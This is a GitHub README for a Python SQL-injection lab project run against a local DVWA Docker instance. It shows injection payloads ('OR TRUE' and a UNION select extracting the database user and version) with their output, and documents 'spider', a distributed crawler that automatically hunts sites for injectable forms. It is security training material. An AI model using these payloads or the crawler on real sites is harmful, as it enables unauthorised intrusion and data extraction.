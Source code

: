 # demo-python-three

## description
search a 'remote' target hosting a **'damn vulnerable web application'** instance for an sql injection vulnerability

## installation / setup
```
> docker search dvwa
> docker pull citizenstig/dvwa
> docker images
> docker run -d -p 80:80 citizenstig/dvwa
```
yields a 'target host' at `http://localhost:80/`

optionally use..
```
> docker ps -a
> docker exec -it 8a021ce97f45 /bin/bash
> cd /var/www/html/
```
..for a rummage around the service's files

the compromise is only possible for a lowered security version of the site, configurable by insecure `security` cookie override `impossible` -> `low` post login

```
> waterfox 127.0.0.1/login.php
username: 'admin' / password: 'password'
> waterfox 127.0.0.1/vulnerabilities/sqli/index.php
S-f2 (mozilla developer bar) -> cookie set security low
```

## sql injection exploitation
confirmation of the vulnerability can be observed via the multiple return records visible following POST of the following `id`:
```
"-1 OR TRUE #"
```
returning:
```
ID: -1' OR TRUE #
First name: admin
Surname: admin

ID: -1' OR TRUE #
First name: Gordon
Surname: Brown

ID: -1' OR TRUE #
First name: Hack
Surname: Me

ID: -1' OR TRUE #
First name: Pablo
Surname: Picasso

ID: -1' OR TRUE #
First name: Bob
Surname: Smith
```

php's `mysql_query` filters multiple statements by default to make sql injection harder / less destructive ..but alas, composite select statements are still single statements, so via use of sql UNIONs arbitrary selects can be made ..although in this instance not easily recovered given the shape of the hard coded field selection criteria, limiting us to **'\*x2'** output dimensions

extracting the database version and user can be achieve by:
```
"-1' union select user(), @@version #"
```
yielding
```
ID: -1' union select user(), @@version #
First name: admin@localhost
Surname: 5.5.47-0ubuntu0.14.04.1
```

## automation: 'spider' - the crawler
python based crawler..

### usage
```
usage: spider.py [-h] [-s] [-p PORT] [-v LEVEL] TARGET

Given a target host's root, 'spider' searches for basic sql injection
vulnerabilities and returns the database user and version where successful

positional arguments:
  TARGET                (master mode) base url to initialise crawl from |
                        (slave mode) host address of master to work for

optional arguments:
  -h, --help            show this help message and exit
  -s, --slave           run in slave mode, connecting to master at
                        'TARGET:10080'
  -p PORT, --port PORT  override the default port for listening (master mode),
                        or connecting (slave mode)
  -v LEVEL, --verbosity LEVEL
                        increase the level of information output
```

### example
```
> python ./spider.py localhost

[info] logging in at 'http://localhost/login.php'
[info] crawled site 'http://localhost' and found 12 urls with forms to test
[info] 1 sql injection vulnerability identified at:
url: 'http://localhost/vulnerabilities/sqli/'
data: 'version|5.5.47-0ubuntu0.14.04.1, user|admin@localhost'
```


### architectual framework components
#### user input
- provide target / root
- reset target cache
- node mode, server (default) / worker
#### node container
- scraping / parsing logic
- identify further urls
#### runner
- server, providing communication end-points to farm out available work
- output results
- block node operations while not logged in
- url pools, maps for processed / processing / to process, mutexes for access
#### storage
- user/node states, authenticate logon
- urls, semi-regularly synchronised with memory pools for recovery
- results, vulnerable urls
#### api
- get_scrape_url_next
- send_scraped_urls
#### unit test suite
- api handles
- mock vulnerable server with static form templates

### architectural design (C4 methodolody)
![architectural design](architecture.png)

## testing
```
> python src/tests.py
```

## todo
- state implementation
- restore / reset existing state cmdline and interactive options
- docstrings
- test suite
- track url_pools diffs for state sync
- crawl link subpaths for isolated (no linked) resources
- make result deduction template agnostic via pre / post exploit diff to
extract results from unknown DOM position
- custom credentials cmdline option
- support multiple credentials sets
- parse robots.txt for valid paths, etiquette abuse

## dependencies
- docker
- dvwa
- tornado
- pycurl
- libcurl
- beautifulsoup
- lxml
